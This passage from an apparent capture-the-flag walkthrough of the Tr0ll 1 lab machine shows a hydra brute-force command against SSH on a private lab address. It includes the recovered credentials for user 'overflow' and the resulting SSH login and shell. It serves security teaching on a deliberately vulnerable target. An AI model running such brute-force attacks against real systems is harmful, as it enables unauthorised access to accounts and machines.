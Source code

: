 The password may be the name of the file **Pass.txt**.

![](/assets/images/tr0ll1/screenshot-6.png)

We copy **Pass.txt** to a file.

```bash
root@kali:~$ echo "Pass.txt" > pass.txt
```

We brute force again and find the password for the user **overflow**.

```bash
root@kali:~$ hydra -L users.txt -P pass.txt ssh://192.168.179.182
...
[22][ssh] host: 192.168.179.182   login: overflow   password: Pass.txt
...
```


## Exploitation
### Access via SSH

We login via SSH as user overflow.

```bash
root@kali:~$ ssh overflow@192.168.179.182                  
overflow@192.168.179.182's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Aug 13 01:14:09 2014 from 10.0.0.12
Could not chdir to home directory /home/overflow: No such file or directory
$ bash 
overflow@troll:/$
```
